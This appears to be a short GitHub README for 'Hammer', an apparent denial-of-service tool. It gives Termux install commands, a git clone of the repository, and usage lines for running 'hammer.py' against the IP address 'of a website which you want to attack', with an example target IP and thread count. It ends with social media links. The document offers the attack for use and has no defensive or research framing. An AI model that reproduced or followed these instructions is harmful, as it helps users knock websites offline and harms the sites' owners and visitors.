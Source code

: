 $ pkg update<br>
$ pkg upgrade<br>
$ pkg install python<br>
$ pkg install git<br>
$ pkg install dnsutils<br>
$ git clone https://github.com/Azim143/Hammer/

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Hammer<br>
$ python hammer.py -s [ip Address] -t 135<br>
example:<br>
$ python hammer.py -s 123.45.67.89 -t 135<br>

Follow Me:
[`Fb me`](https://www.facebook.com/100022097600640)
[`w me`](https://chat.whatsapp.com/FRfuraMrZrU3mgCtuFg75k)
